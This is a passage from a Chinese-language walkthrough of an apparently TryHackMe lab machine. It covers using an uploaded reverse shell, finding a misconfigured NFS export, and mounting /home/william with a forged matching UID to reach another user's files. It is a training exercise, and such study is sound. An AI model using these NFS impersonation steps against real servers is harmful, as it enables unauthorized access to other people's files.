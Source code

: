 ### www-data

访问我们上传的 reverse shell , 从而获取到连接

![image-20240709174017985](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-174019.png)

### www-data —> leonard

我们知道之前存在 NFS 服务共享, 所以我们查看一下 NFS 的配置文件, 了解到存在一个 /home/william 共享 

```bash
(remote) www-data@undiscovered:/var/www/deliver.undiscovered.thm/data$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/home/william	*(rw,root_squash)
```

我们将其挂载到本地, 但是你会发现对于 william 我们是没有权限访问的

```bash
root@ip-10-10-80-215:~/undiscoveredup# mount -t nfs 10.10.186.129:/home/william ./william
root@ip-10-10-80-215:~/undiscoveredup# ls -al william
drwxr-x---  4 nobody 4294967294    4096 Sep  9  2020 william
```

为了解决上面的问题, 我们需要创建一个和 william 的 UID 一样的本地用户, 通过查看发现 william  的 uid=3003

```bash
root@ip-10-10-80-215:~/undiscoveredup# sudo useradd -u 3003 tom
root@ip-10-10-80-215:~/undiscoveredup# su tom
$ cd william
$ ls -al
total 44
drwxr-x--- 4 nobody 4294967294 4096 Sep  9  2020 .
drwxr-xr-x 4 root   root       4096 Oct  5 04:54 ..
-rwxr-xr-x 1 nobody 4294967294  128 Sep  4  2020 admin.sh
-rw------- 1 nobody 4294967294    0 Sep  9  2020 .bash_history
-rw-r--r-- 1 nobody 4294967294 3771 Sep  4  2020 .bashrc
drwx------ 2 nobody 4294967294 4096 Sep  4  2020 .cache
drwxrwxr-x 2 nobody 4294967294 4096 Sep  4  2020 .nano
-rw-r--r-- 1 nobody 4294967294   43 Sep  4  2020 .profile
-rwsrwsr-x 1 nobody 4294967294 8776 Sep  4  2020 script
-rw-r----- 1 nobody 4294967294   38 Sep  9  2020 user.txt
```

通过查看我发现 对于 script 会调用 [admin.sh](http://admin.sh) 程序, 但是没有什么用, 但是我们可以改变 william 的权限, 使其变得所有人都可以访问, 在本地执行下面命令, 完成之后你就会发现对于 /home/william 你也会有权限访问
